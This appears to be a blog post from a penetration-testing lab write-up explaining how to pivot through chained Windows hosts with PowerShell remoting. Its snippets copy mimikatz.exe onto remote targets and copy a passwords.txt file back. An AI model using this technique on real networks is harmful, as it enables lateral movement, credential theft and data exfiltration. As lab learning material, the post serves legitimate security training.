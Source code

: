 ```yaml
---
layout: post
title: Powershell - Pivoting
---
```


I thought I'd share what I just stumbled upon while working on the [PACES](https://www.pentesteracademy.com/gcb) lab.  I'm not really a Windows user, but while doing this lab you are forced in some situation to make use of and learn more about tooling that is available to penetration testers.  What I found might not be news to anyone else, but once it worked I thought it was pretty cool.

For a specific section in the lab, you can only connect to the next machine in the chain by using winrm / PSConnect.  Each machine can't reach the machine before the previous machine.  Besides having to pivot through to get to the target to execute commands, I also had to chain it together to get files across.  

It took me a while to get something to work.  I first tried to use the `netsh` to setup port forwarding from one machine to the next, and continue until I got to the target.  My idea was to forward until I could reach port 5985 on the target.  Unfortunately because of the multiple firewalls setup, knowing which ports were open on each machine turned out to be more difficult than I initially anticipated.

After many hours of trying different things, I happen to come across a website that mentions using `Copy-Item` combined with a PSSession.  

### The code

The following can be used to copy files to and from a target if you only have winrm / PSConnect access.

```powershell
#setup credential object
$password = ConvertTo-SecureString "securepassword" -AsPlainText -Force;
$creds = New-Object System.Management.Automation.PSCredential('username',$password)

#create a background powershell session to the target
$sess = New-PSSession -ComputerName dc.target.local -Credential $creds -Authentication Negotiate

#copy to the target
Copy-Item -Path C:\users\chris\Downloads\mimikatz.exe -Destination c:\users\username\desktop\ -ToSession $sess
#copy from the target
Copy-Item -Path c:\users\chris\Downloads\passwords.txt -Destination C:\users\chris\Downloads\ -FromSession $sess
```

### Put it into practice

For an example, let's look at the following diagram:  

![](/assets/2022-02-16-04-54-25.png)

The aim here is to upload a file to `target` and execute it.

A very dumbed down (credential creating/passing removed) pseudo example:

1.  Copy file to **jump1** by SMB
2.  Invoke-Command -ComputerName **jump1** -ScriptBlock {Copy file to **jump2**}
3.  Invoke-Command -ComputerName **jump1** -ScriptBlock {Invoke-Command -ComputerName **jump2** -ScriptBlock {Copy file to **jump3**}}
4.  Invoke-Command -ComputerName jump1 -ScriptBlock {Invoke-Command -ComputerName **jump2** -ScriptBlock {Invoke-Command -ComputerName **jump3** -ScriptBlock{Copy file to **target**}}}
5.  Invoke-Command -ComputerName **jump1** -ScriptBlock {Invoke-Command -ComputerName **jump2** -ScriptBlock {Invoke-Command -ComputerName **jump3** -ScriptBlock{ Invoke-Command -ComputerName **target** -ScriptBlock {run command}}}}

### Pivot and copy

Let's just look at the first copy section to get the file onto `jump2`:

```powershell
$jump1_password = ConvertTo-SecureString "securepassword" -AsPlainText -Force;
$jump1_creds = New-Object System.Management.Automation.PSCredential('username',$jump1_password);
$jump1_session = New-PSSession -ComputerName jump1 -Credential $jump1_creds -Authentication Negotiate;
Invoke-Command -Session $jump1_session -ScriptBlock {
  $jump2_password = ConvertTo-SecureString "securepassword" -AsPlainText -Force;
  $jump2_creds = New-Object System.Management.Automation.PSCredential('username',$jump2_password);
  $jump2_session = New-PSSession -ComputerName jump2 -Credential $jump2_creds -Authentication Negotiate;  
  Copy-Item -Path C:\users\chris\Downloads\mimikatz.exe -Destination c:\users\username\desktop\ -ToSession $jump2_session;
}
```

I have tried to lay out space out the commands a bit to make it more readable, but the aim of this is to have a one liner at the end.

### Improvements

This might not be the most elegant solution, but for my purposes it worked out great.  I'm happy to learn from anyone that has a different way of doing this.